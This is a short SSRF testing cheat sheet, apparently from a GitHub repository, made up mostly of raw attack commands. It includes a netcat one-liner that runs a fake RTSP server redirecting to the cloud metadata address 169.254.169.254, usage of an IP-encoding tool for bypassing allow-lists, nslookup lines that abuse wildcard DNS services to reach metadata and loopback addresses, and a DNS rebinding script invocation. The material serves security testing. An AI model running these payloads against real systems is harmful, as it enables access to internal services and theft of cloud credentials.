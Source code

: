 `export RTSPLOCATION="http://169.254.169.254/"; while true ; do nc -l -p 554 -c 'echo -e "RTSP/1.0 301 Moved\nCSeq: 1\nLocation: $RTSPLOCATION"'; done`

***

### ip.py - Alternate IP encoding tool useful for SSRF Testing

python ip.py IP PORT WhiteListedDomain EXPORT(optional)

python ip.py 169.254.169.254 80 www.google.com

python ip.py 169.254.169.254 80 www.google.com export

***

### DNS pinning

nslookup ssrf-169.254.169.254.localdomain.pw

nslookup ssrf-cloud.localdomain.pw

http://xip.io/

nslookup 169.254.169.254.xip.io

nslookup 1ynrnhl.xip.io

nslookup www.owasp.org.1ynrnhl.xip.io

nslookup 127.127.127.127.xip.io

https://nip.io/

nslookup 169.254.169.254.nip.io

nslookup app-169-254-169-254.nip.io

nslookup owasp.org.169.254.169.254.nip.io

nslookup customer2-app-169-254-169-254.nip.io

nslookup 127.127.127.127.nip.io

***

### DNS pinning race condition

nslookup ssrf-race-169.254.169.254.localdomain.pw

***

### DNS Rebinding

pip install twised

python3 dns.py WhitelistedIP InternalIP ServerIP Port Domain

python3 dns.py 216.58.214.206 169.254.169.254 78.47.24.216 53 localdomains.pw

http://webcache.googleusercontent.com/search?q=cache:http://www.611eternity.com/DNSRebinding%E6%8A%80%E6%9C%AF%E5%AD%A6%E4%B9%A0/
